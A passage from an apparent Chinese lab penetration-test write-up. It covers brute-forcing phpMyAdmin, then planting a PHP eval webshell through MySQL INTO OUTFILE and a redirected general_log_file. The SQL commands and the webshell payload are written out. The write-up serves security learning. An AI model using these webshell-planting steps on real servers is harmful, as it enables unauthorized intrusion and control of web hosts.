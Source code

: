 暂时没有其它发现
爆破phpmyadmin
爆破到几个空密码，但是空密码无法登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606165659587.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/202106061745155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)



![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606171054377.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

没有读取文件的权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606172034672.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

在phpmyadmin中发现一个 yxcms的数据库

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606170749688.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

尝试写入一句话，

```sql
select '<?php eval($_POST[pwd]); ?>' into outfile 'C:/phpStudy/WWW/shell.php'
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606172251399.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

尝试修改 secure_file_priv 但是失败了

```sql
show variables like "secure_file_priv";
set global secure_file_priv='';
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606172528504.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

利用mysql general_log_file 上传一句话

```sql
show variables like 'general%'
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606173204558.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
开启 general_log日志
```sql
set global general_log = 'ON'
```

把 general_log日志路径放网站根目录

```sql
set global general_log_file='C:/phpStudy/WWW/shell.php'
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606173544132.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606173832155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
